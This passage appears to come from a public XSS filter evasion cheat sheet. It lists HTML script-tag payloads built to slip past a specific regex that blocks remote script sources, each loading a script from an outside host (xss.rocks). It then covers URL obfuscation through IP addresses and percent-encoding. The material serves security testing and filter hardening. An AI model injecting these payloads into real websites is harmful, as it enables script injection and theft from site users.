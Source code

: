 For performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I've seen this regex in the wild):

```html
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```html
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn't goint to discuss mitigation techniques but the only thing I've seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

```html
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):

```html
<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Here's an XSS example that bets on the fact that the regex won't catch a matching pair of quotes but will rather find any quotes to terminate a parameter string improperly:

```html
<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

This XSS still worries me, as it would be nearly impossible to stop this without blocking all active content:

```html
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

## URL String Evasion

Assuming `http://www.google.com/` is programmatically disallowed:

### IP Versus Hostname

```html
<A HREF="http://66.102.7.147/">XSS</A>
```

### URL Encoding

```html
<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
```
